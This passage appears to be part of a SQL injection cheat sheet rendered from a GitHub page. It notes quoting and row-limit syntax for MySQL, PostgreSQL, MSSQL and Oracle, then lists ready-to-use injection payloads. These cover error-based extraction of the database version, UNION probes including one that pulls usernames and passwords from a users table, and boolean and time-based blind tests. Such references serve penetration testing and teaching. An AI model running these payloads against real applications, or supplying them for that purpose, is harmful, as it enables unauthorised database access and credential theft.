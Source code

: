 #### Example Patterns

- **MySQL**
  - Backticks for quoting identifiers: \`identifier\`
  - Limit clause: `LIMIT 1`

- **PostgreSQL**
  - Double quotes for quoting identifiers: "identifier"
  - `RETURNING` clause

- **MSSQL**
  - Square brackets for quoting identifiers: [identifier]
  - `TOP` clause: `SELECT TOP 1`

- **Oracle**
  - Double quotes for quoting identifiers: "identifier"
  - `ROWNUM` clause: `WHERE ROWNUM = 1`

### 1. Advanced Payloads and Techniques

#### Error-Based SQL Injection
- **Advanced Error Payloads**:
  ```sql
  ' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT version()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- -
  ```

#### Union-Based Injection
- **Determining the Number of Columns**:
  ```sql
  ' UNION SELECT NULL, NULL, NULL, NULL -- 
  ```
- **Extracting Data**:
  ```sql
  ' UNION SELECT username, password, NULL, NULL FROM users -- 
  ```

#### Blind SQL Injection
- **Boolean-Based Blind**:
  ```sql
  ' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END) -- 
  ```
- **Time-Based Blind**:
  ```sql
  ' AND IF(1=1, SLEEP(5), 0) -- 
  ```

#### Second-Order SQL Injection
- **Injection in Profile Information**:
  Modify data stored in one place to affect queries executed elsewhere.

#### Advanced Union-Based SQL Injection

##### 1. Union-Based Error Handling
